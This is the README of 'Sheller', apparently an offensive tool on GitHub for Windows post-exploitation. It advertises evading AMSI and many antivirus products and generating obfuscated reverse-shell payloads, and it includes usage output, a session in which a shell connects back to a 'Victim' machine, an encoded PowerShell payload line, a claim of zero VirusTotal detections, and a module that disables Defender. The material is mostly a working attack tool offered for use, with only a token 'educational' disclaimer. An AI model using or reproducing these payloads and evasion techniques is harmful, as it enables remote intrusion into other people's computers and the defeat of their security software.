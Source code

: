 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass modules such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
```
root@lukeproducts:~/Sheller# python3 sheller.py

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: sheller2.0.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64] [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding type (default is md5)
  ```


# Example
```
root@lukeproducts:~/Sheller# python3 sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


Host set to "LukeProuctsKali" (192.168.0.129)

[*] Successfully exported payload to "xy.bat" with encoding base64 and chunked up 87 times!
listening on [any] 4444 ...
connect to [192.168.0.129] from (UNKNOWN) [192.168.0.129] 1716
Microsoft Windows [Version 10.0.19042.1415]
(c) Microsoft Corporation. All rights reserved.

D:\Victim>
```

### xy.bat: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Virustotal Scan Result</a>
```
powershell /w 1 /C "$a=[scriptblock]::create([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZgB1AG4AYwB0AGkAbwBuACAAYwBsAGUAYQBuAHUAcAAgAHsAaQBm'+'ACAAKAAkADMAYwBhADQAYgBhADUANgA2AGMAZgBlAGQANQBjADEAYwA1ADMAMQBmAGQAMgA1ADkAYgBjAGYAMAA5ADcAOAAuAEMAbwBuAG4AZQBjAHQAZQBkACAALQBlAHEAIAAkAHQAcgB1AGUAKQAgAHsAJAAzAGMAYQA0AGIAYQA1ADYANgBjAGYAZQBk'+'ADUAYwAx'+'...')));Invoke-Command -ScriptBlock $a"
```
[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)
# error sources
If you use Windows to run this script, make sure to turn off Defenders RealTimeProtection for this script, because this causes program truncations multiple times. The reason for that is, that AMSI Flaggs sheller in runtime.


[![Build Status](https://user-images.githubusercontent.com/73026669/110617122-9c75ad00-8195-11eb-9ba5-422356072776.png)](https://github.com/LukeProducts)


###
DISCLAIMER: THIS IS FOR EDUCATIONAL PURPOSES ONLY! 
NO LIABILITY FOR ILLEGAL USE IS ASSUMED!
###
© Copyright by LukeProducts

